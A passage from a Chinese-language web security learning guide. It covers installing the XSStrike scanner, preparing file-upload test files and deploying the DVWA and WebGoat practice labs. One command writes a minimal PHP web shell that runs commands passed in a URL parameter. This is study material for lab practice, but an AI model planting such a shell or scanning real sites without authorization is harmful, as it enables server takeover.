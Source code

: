 ```bash
# 安装XSStrike
git clone https://github.com/s0md3v/XSStrike.git
cd XSStrike
pip3 install -r requirements.txt

# 使用示例
python3 xsstrike.py -u "http://target.com/search.php?q="
```

### 文件上传测试

准备各种类型的Webshell和测试文件：

```bash
# 创建测试文件目录
mkdir ~/web-payloads

# 常用测试文件
echo "<?php phpinfo(); ?>" > ~/web-payloads/info.php
echo "<?php system(\$_GET['cmd']); ?>" > ~/web-payloads/shell.php
```

## 学习环境搭建

### 在线靶场推荐

- **DVWA (Damn Vulnerable Web Application)**: 经典Web漏洞练习平台
- **WebGoat**: OWASP项目，Web安全教学平台
- **Mutillidae**: 多种漏洞类型的练习平台
- **bWAPP**: 包含100多个Web漏洞的平台

### 本地靶场部署

#### DVWA部署

```bash
# 使用Docker部署DVWA
docker run -d -p 80:80 vulnerables/web-dvwa

# 或使用git克隆源码部署
git clone https://github.com/digininja/DVWA.git
cd DVWA
# 配置config.inc.php文件并部署到Web服务器
```

#### WebGoat部署

```bash
# 使用Docker部署WebGoat
docker run -d -p 8080:8080 -p 9090:9090 webgoat/webgoat-8.0

# 或下载JAR文件运行
wget https://github.com/WebGoat/WebGoat/releases/latest/download/webgoat-server-8.2.2.jar
java -jar webgoat-server-8.2.2.jar
```
